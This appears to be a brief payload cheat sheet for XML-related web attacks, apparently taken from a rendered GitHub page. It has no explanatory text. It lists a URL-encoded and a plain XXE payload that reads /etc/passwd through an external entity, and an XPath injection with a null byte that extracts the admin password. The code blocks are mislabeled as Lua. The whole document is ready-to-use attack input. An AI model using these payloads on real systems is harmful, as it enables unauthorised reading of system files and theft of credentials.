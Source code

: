 ## XML

### 1

```lua
?xml=%3C!DOCTYPE%20root%20[%3C!ENTITY%20hacker%20SYSTEM%20%22file:///etc/passwd%22%3E]%20%3E%3Croot%3E%26hacker%3b%3C/root%3E
?xml=<!DOCTYPE root [<!ENTITY hacker SYSTEM "file:///etc/passwd">] ><root>&hacker;</root>
```

### 2

```lua
?name=admin%27]/parent::*/password%00
```
